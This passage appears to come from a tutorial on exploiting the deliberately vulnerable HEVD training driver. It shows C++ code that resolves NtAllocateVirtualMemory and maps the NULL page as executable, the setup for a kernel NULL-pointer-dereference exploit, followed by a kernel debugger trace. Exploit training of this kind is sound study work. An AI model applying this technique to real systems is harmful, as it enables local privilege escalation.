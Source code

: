 
### 2. Allocating the NULL page

Before we talk with the driver, we need to allocate our NULL page and put the address of the payload at `0x4`. Allocating the NULL page through `VirtualAllocEx` is not possible, instead, we can resolve the address of `NtAllocateVirtualMemory` in `ntdll.dll` and pass a small non-zero base address which gets rounded down to NULL.

To resolve the address of the function, we'll use `GetModuleHandle` to get the address of `ntdll.dll` then `GetProcAddress` to get the process address.

```cpp
typedef NTSTATUS(WINAPI *ptrNtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID *BaseAddress,
	ULONG ZeroBits,
	PULONG AllocationSize,
	ULONG AllocationType,
	ULONG Protect
	);

	ptrNtAllocateVirtualMemory NtAllocateVirtualMemory = (ptrNtAllocateVirtualMemory)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtAllocateVirtualMemory");
	if (NtAllocateVirtualMemory == NULL)
	{
		printf("[-] Failed to export NtAllocateVirtualMemory.");
		exit(-1);
	}
```

Next we need to allocate the NULL page:

```cpp
	// Copied and modified from http://www.rohitab.com/discuss/topic/34884-c-small-hax-to-avoid-crashing-ur-prog/
LPVOID baseAddress = (LPVOID)0x1;
ULONG allocSize = 0x1000;
char* uBuffer = (char*)NtAllocateVirtualMemory(
	GetCurrentProcess(),
	&baseAddress,						// Putting a small non-zero value gets rounded down to page granularity, pointing to the NULL page
	0,
	&allocSize,
	MEM_COMMIT | MEM_RESERVE,
	PAGE_EXECUTE_READWRITE);
```

To verify if that's working, put a `DebugBreak` and check the memory content after writing some dummy value.

```cpp
DebugBreak();
*(INT_PTR*)uBuffer = 0xaabbccdd;
```

```
kd> t
KERNELBASE!DebugBreak+0x3:
001b:7531492f ret

kd> ? @esi
Evaluate expression: 0 = 00000000

kd> t
HEVD!main+0x1a4:
001b:002e11e4 mov     dword ptr [esi],0AABBCCDDh

kd> t
```